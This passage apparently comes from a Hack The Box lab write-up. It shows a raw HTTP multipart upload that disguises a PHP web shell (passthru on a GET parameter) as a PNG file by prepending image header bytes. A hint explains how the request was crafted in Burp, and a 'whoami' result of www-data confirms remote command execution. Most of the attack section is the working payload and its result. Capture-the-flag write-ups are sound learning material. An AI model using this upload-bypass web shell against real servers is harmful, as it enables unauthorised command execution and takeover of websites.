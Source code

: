 ```http
DNT: 1

-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="image"; filename="htb1.php.png"
Content-Type: image/png

PNG

<?php passthru($_GET['test']); ?>
-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------25702794813234425341306225294--
```

{% hint style="info" %}
_This text may not work by directly copying and pasting. The PNG file header has some other bytes in it that do not render as ASCII and do not copy properly, but Burp is capable of grabbing them if you capture a file upload/download. I sent a test PNG first, then cut out everything but the headers to craft my payload._
{% endhint %}

![](../../.gitbook/assets/5.5-image-upload_success.png)

![](../../.gitbook/assets/5-image-upload.png)

`whoami` returns `www-data` 
